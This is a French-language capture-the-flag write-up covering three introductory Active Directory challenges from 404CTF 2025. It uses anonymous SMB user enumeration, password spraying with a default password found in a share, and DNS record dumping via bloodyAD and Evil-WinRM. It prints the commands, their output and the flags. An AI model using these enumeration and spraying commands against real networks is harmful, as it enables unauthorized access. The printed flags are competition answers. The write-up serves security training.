

Trois challenges Intro en Réaliste.

``HF47``

# The LDAP Chronicles 

> Un administrateur a laissé une porte ouverte dans le système de gestion des identités. Explorez les profondeurs du répertoire pour découvrir des informations cachées. Le secret se trouve dans un des attributs des comptes utilisateurs. Saurez-vous le dénicher ?

---

**Note:**
- Ce challenge ne nécessite pas de compte Active Directory
- Les comptes formation et Administrateur et le groupe CTF_Player ne font pas partie du périmètre du challenge. Il est strictement interdit d'essayer de les compromettre.
- Les comptes et/ou groupes spécifiques au challenge sont identifiés par CTF ou indiqués dans l'énoncé. En cas de doute, contactez un administrateur.

Pour générer un token CTFd, nécessaire pour obtenir un compte Active Directory, rendez-vous dans la section Paramètres puis Clé D'accès.

``51.77.110.239`` 


La connexion anonyme fonctionne. On trouve rapidement le premier flag.

```
└─$ nxc smb 51.77.110.239 -u '' -p '' --users
SMB         51.77.110.239   445    DC1              [*] Windows Server 2016 Standard 14393 x64 (name:DC1) (domain:ctfcorp.local) (signing:True) (SMBv1:True)
SMB         51.77.110.239   445    DC1              [+] ctfcorp.local\: 
SMB         51.77.110.239   445    DC1              -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         51.77.110.239   445    DC1              Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         51.77.110.239   445    DC1              DefaultAccount                <never>             0       A user account managed by the system. 
SMB         51.77.110.239   445    DC1              hf47                          2025-05-02 14:44:05 0        
SMB         51.77.110.239   445    DC1              helpdesk_operator             2025-05-05 15:50:09 0       Contact: ext-5555 - Helpdesk Level 1 
SMB         51.77.110.239   445    DC1              backup_service                2025-05-05 15:50:09 0       Automated backup service account 
SMB         51.77.110.239   445    DC1              john_doe                      2025-05-05 15:50:09 0       Sales Manager - North Region 
SMB         51.77.110.239   445    DC1              sarah_smith                   2025-05-05 15:50:09 0       404CTF{Ld4P_4n0nym0us_1s_4_B4d_Pr4ct1c3!} 
SMB         51.77.110.239   445    DC1              dev_jenkins                   2025-05-05 15:50:09 0       CI/CD Pipeline Service Account 
SMB         51.77.110.239   445    DC1              print_svc                     2025-05-05 15:50:09 0       Print Spooler Service 
SMB         51.77.110.239   445    DC1              web_admin                     2025-05-05 15:50:09 0       Intranet Administrator 
```

# Houston, we have a problem  

> CTFCORP a récemment accueilli de nouveaux stagiaires. L'équipe de sécurité soupçonne que des mots de passe par défaut n'ont pas été changés. Votre mission : vérifier si ces comptes sont vulnérables à une attaque par password spray et obtenir l'accès aux ressources partagées.

``51.89.228.14``

Identifiants de connexion:

``Nom d'utilisateur: gomme70565_404Player``

``Mot de passe: <password>``

En regardant les utilisateurs, on voit qu'il y a 7 comptes stagiaires. L'un de ces comptes est sûrement vulnérable au password spray.



On met tous les noms dans un fichier users.txt

Dans les shares, on découvre qu'il y a Public et Stagiaires

```
└─$ nxc smb 51.89.228.14 -u 'gomme70565_404Player' -p '<password>' --shares
SMB         51.89.228.14    445    DC1              [*] Windows Server 2016 Standard 14393 x64 (name:DC1) (domain:ctfcorp.local) (signing:True) (SMBv1:True)
SMB         51.89.228.14    445    DC1              [+] ctfcorp.local\gomme70565_404Player:<password> 
SMB         51.89.228.14    445    DC1              [*] Enumerated shares
SMB         51.89.228.14    445    DC1              Share           Permissions     Remark
SMB         51.89.228.14    445    DC1              -----           -----------     ------
SMB         51.89.228.14    445    DC1              ADMIN$                          Remote Admin
SMB         51.89.228.14    445    DC1              C$                              Default share
SMB         51.89.228.14    445    DC1              IPC$                            Remote IPC
SMB         51.89.228.14    445    DC1              NETLOGON        READ            Logon server share 
SMB         51.89.228.14    445    DC1              Public          READ            Documents publics
SMB         51.89.228.14    445    DC1              Stagiaires      READ            Documents des stagiaires
SMB         51.89.228.14    445    DC1              SYSVOL          READ            Logon server share 

```

```
└─$ smbclient //51.89.228.14/Stagiaires -U 'gomme70565_404Player%<password>'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue May 13 05:13:53 2025
  ..                                  D        0  Tue May 13 05:13:53 2025
  .DS_Store                          AH     6148  Sun May 11 21:42:39 2025
  procedures_stages.txt               A      342  Sun May 11 00:00:34 2025
  trombinoscope.txt                   A      557  Sun May 11 00:00:34 2025

```
Impossible de récupérer procedures_stages.txt. Il faut être stagiaire.

En revanche, ce fichier peut être récupéré.

```
└─$ smbclient //51.89.228.14/Public -U 'gomme70565_404Player%<password>'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat May 10 00:04:16 2025
  ..                                  D        0  Sat May 10 00:04:16 2025
  notes_accueil.txt                   A      421  Sun May 11 00:00:34 2025

```
A l'intérieur du fichier, on trouve un mdp par défaut.

```
== NOTES D'ACCUEIL - CTFCORP ===

Bienvenue aux nouveaux arrivants !

Pour tous les stagiaires: 
- Un mot de passe par défaut vous a été attribué: Bienvenue2024!
- Vous devez le changer dès votre première connexion
- Consultez le trombinoscope sur le partage réseau "Stagiaires"
- Votre manager vous contactera dans les 24h

En cas de problème de connexion, contactez le support IT.

--
Équipe RH
CTFCORP

```
Le password spray peut fonctionner. 
```
nxc smb 51.89.228.14 -u users.txt -p 'Bienvenue2024!' --continue-on-success
```

Il se trouve que l'utilisateur stagiaire05 n'a pas changé son mdp. Il est alors possible de se connecter dessus et récupérer le document pour les stagiaires.
```
smbclient //51.89.228.14/Stagiaires -U stagiaire05
smb: \> procedures_stages.txt 
```

Le flag est à l'intérieur.

```
=== PROCÉDURES POUR LES STAGIAIRES ===

1. Lors de votre première connexion, changez votre mot de passe par défaut
2. Remplissez la fiche d'accueil (voir modèle sur le partage)
3. Consultez régulièrement votre messagerie professionnelle

Note confidentielle pour les administrateurs:
404CTF{P4ssW0rd_Spr4y_1s_T00_E4sy_F0r_St4g14ir3s}
```

# Named Resolve

> Dans la station, chaque nom a sa place — mais certains ne devraient jamais être résolus. Un secteur du réseau reste ignoré par la majorité des opérateurs. Pourtant, ceux qui savent où chercher y trouvent souvent bien plus qu’ils ne l’imaginaient.

``51.89.230.95``

Identifiants de connexion:

``Nom d'utilisateur: noir13239_404Player``

``Mot de passe: <password>``

Il se passe quelque chose en lien avec le nom de domaine.

ctfcorp.local

On peut énumérer les enregistrements DNS de différentes manières.
Je vais utiliser bloodyAD.

```
bloodyAD --host "51.89.230.95" -d "ctfcorp.local" -u 'noir13239_404Player' -p '<password>' get dnsDump
```
On trouve alors un sous-domaine qui donne directement le flag.
```
recordName: flag.challenge.ctfcorp.local
TXT: 404CTF{DNS_Z0n3_W4lk1ng_Byp4ss3s_Tr4nsf3r_R3str1ct10ns!}
```

Il était aussi possible de se connecter avec Evil-WinRM et de trouver une commande dans ``C:\CTF\DNS`` pour énumérer les enregistrements.

```
evil-winrm -i 51.89.230.95 -u 'noir13239_404Player' -p '<password>'

*Evil-WinRM* PS C:\CTF\DNS> ls


    Directory: C:\CTF\DNS


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/1/2025   2:08 PM         436736 dnscmd-public.exe
-a----         5/9/2025   1:06 PM            144 enumerer-records.cmd
-a----         5/9/2025   1:06 PM             87 enumerer-zones.cmd
-a----         5/9/2025   1:06 PM             79 rpc-dns.cmd


*Evil-WinRM* PS C:\CTF\DNS> type enumerer-records.cmd
@echo off
echo ?num?ration des enregistrements de la zone challenge.ctfcorp.local...
dnscmd localhost /enumrecords challenge.ctfcorp.local .

*Evil-WinRM* PS C:\CTF\DNS> .\enumerer-records.cmd
?num?ration des enregistrements de la zone challenge.ctfcorp.local...

Returned records:
@                3600 A 192.168.56.4
                 3600 NS        dc1.ctfcorp.local.
                 3600 SOA       dc1.ctfcorp.local. hostmaster.ctfcorp.local. 8 900 600 86400 3600
admin            3600 A 192.168.56.4
api              3600 A 192.168.56.4
flag             3600 TXT               404CTF{DNS_Z0n3_W4lk1ng_Byp4ss3s_Tr4nsf3r_R3str1ct10ns!}
info             3600 TXT               Ceci est un serveur de challenge pour le 404CTF 2025
service          3600 A 192.168.56.4
www              3600 A 192.168.56.4

Command completed successfully.
```


